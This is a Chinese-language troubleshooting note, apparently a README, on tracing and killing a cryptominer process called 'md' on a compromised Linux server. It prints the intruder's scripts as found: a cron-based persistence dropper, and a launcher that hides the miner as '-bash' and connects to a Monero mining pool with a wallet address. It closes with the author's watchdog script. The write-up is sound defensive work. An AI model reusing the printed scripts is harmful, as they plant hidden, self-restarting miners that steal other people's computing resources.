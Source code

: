# 查杀挖矿机进程md

`[root@localhost]# top` 查看到md（占用cpu近100%）的PID， 4444（假设）
```[root@localhost]# cd /proc/4444
[root@localhost]# ll
-r--------. 1 Hazard Liulab        304 Nov 22 20:24 auxv
--w-------. 1 Hazard Liulab          0 Nov 22 20:24 clear_refs
-r--r--r--. 1 Hazard Liulab        414 Nov 22 20:24 cmdline
-rw-r--r--. 1 Hazard Liulab          3 Nov 22 20:24 comm
lrwxrwxrwx. 1 Hazard Liulab         15 Nov 22 20:24 cwd -> /lib/modules/.z
-r--------. 1 Hazard Liulab       3799 Nov 22 20:24 environ
lrwxrwxrwx. 1 Hazard Liulab         18 Nov 22 20:24 exe -> /lib/modules/.z/md
dr-x------. 2 Hazard Liulab       4096 Nov 22 20:24 fd
dr-x------. 2 Hazard Liulab       4096 Nov 22 20:24 fdinfo
-rw-------. 1 Hazard Liulab       1323 Nov 22 20:24 limits
-r--r--r--. 1 Hazard Liulab      16529 Nov 22 20:24 maps
-rw-------. 1 Hazard Liulab          0 Nov 22 20:24 mem
-r--r--r--. 1 Hazard Liulab       1489 Nov 22 20:24 mountinfo
-r--r--r--. 1 Hazard Liulab       1278 Nov 22 20:24 mounts
dr-x--x--x. 2 Hazard Liulab       4096 Nov 22 20:24 ns
-r--r--r--. 1 Hazard Liulab      10351 Nov 22 20:24 numa_maps
-r--r--r--. 1 Hazard Liulab 2823852032 Nov 22 20:24 pagemap
-r--r--r--. 1 Hazard Liulab          9 Nov 22 20:24 personality
lrwxrwxrwx. 1 Hazard Liulab          1 Nov 22 20:24 root -> /
-rw-r--r--. 1 Hazard Liulab       2403 Nov 22 20:24 sched
-r--r--r--. 1 Hazard Liulab     130825 Nov 22 20:24 smaps
-r--r--r--. 1 Hazard Liulab        233 Nov 22 20:24 stat
-r--r--r--. 1 Hazard Liulab         34 Nov 22 20:24 statm
-r--r--r--. 1 Hazard Liulab        936 Nov 22 20:24 status
-r--r--r--. 1 Hazard Liulab         67 Nov 22 20:24 syscall
```     
重点关注cmdline 和 exe,cwd 等  
cwd 指向 /lib/modules/.z (这个目录里放着挖矿的程序)  
exe指向 /lib/modules/.z/md (这个就是占用100%cpu的家伙)  
`[root@localhost]# cat cmdline`      
`-bash -acryptonight-os tratum+tcp://pool.minexmr.com:7777`   
这里看到这些字样，pool.minexmr.com 基本上跟挖矿有关了   
```
[root@localhost]# cd /lib/modules/.z/
[root@localhost .z]# ll
-rw-r--r--. 1 root root       0 Nov 23 15:40 $
-rwxr-xr-x. 1 root root     332 Oct  5 03:07 a
-rw-r--r--. 1 root root       1 Nov 23 18:07 bash.pid
-rwxr-xr-x. 1 1001 1001   15125 Feb 21  2016 h32
-rwxr-xr-x. 1 1001 1001  838583 Feb 21  2016 h64
-rwxr-xr-x. 1 root root 2979640 Jun 24 04:19 md
-rwxr-xr-x. 1 root root  168896 Sep 27 18:58 mdx
-rwxr-xr-x. 1 root root     533 Nov 19 22:41 run
-rw-r--r--. 1 root root    4833 Nov 23 16:24 screenlog.0
-rwxr-xr-x. 1 root root      24 Oct  5 02:45 x
```   
 h32,h64,md,mdx都是二进制文件  
 我们可以从a, run, x 三个文件里看到些端倪  
```
[root@localhost .z]# cat a 
pwd > dir.dir
dir=$(cat dir.dir)
echo "* * * * * $dir/upd >/dev/null 2>&1" > cron.d
crontab cron.d
crontab -l | grep upd
echo "#!/bin/sh
if test -r $dir/bash.pid; then
pid=\$(cat $dir/bash.pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > upd
chmod u+x upd
rm -rf ../dwk.tgz
rm -rf ../z.sh
```
 cron.d 和 upd文件都没有找到，使用locate 命令，也没有搜索到，  
 使用kill 4444 之后，停几个小时，md会重新执行（即使给.z文件夹改名也没用，删除也没有用，还是会启动）  
  怀疑存在父进程，或定时任务，但是使用crontab -l 查看没有定时任务（无语）  
```
[root@localhost .z]# cat run  
#!/bin/bash

proc=`nproc`
ARCH=`uname -m`
HIDE="-bash"

if [ "$ARCH" == "i686" ];       then
        ./h32 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
elif [ "$ARCH" == "x86_64" ];   then
        ./h64 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
fi
echo $! > bash.pid
```
```
[root@localhost .z]# cat x
nohup ./a >>/dev/null &
```
-------------
# 暂时的解决方法
 无奈只能曲线救国，写了一个守护进程，一旦看到md运行就kill掉它   
 其中ps -ef 结果的第三列是父进程，为了追综始作俑者。  
 一般命令行运行的程序好像父进程是1？  
 
 把下面的代码复制到watchMD.sh中（记得改一下里面`file_name`的路径），  
 然后`nohup sh watchMD.sh &`即可每隔2s监控一次，碰到md就杀  
 改一下`proc_name`（支持正则表达式），可以神挡杀神
```
#!/bin/sh
proc_name="^md$" 
file_name="/data2/lzc/watchMD.log"

echo `date` = NUM = PID > $file_name
while true
do
 num=`pgrep -x "$proc_name" | wc -l`
 if [ 0 -lt $num ]
 then
    pid=`pgrep -x "$proc_name"`
    ps -ef | grep $pid | grep -v grep >> $file_name
    echo == >> $file_name
    par=(`ps -ef | grep $pid | grep -v grep | cut -f3`)
    ps -ef | grep ${par[0]} | grep -v grep >> $file_name
    echo ==== >> $file_name
    kill $pid
    echo `date` =  $num  = $pid >> $file_name
 fi
 sleep 2
done  
```
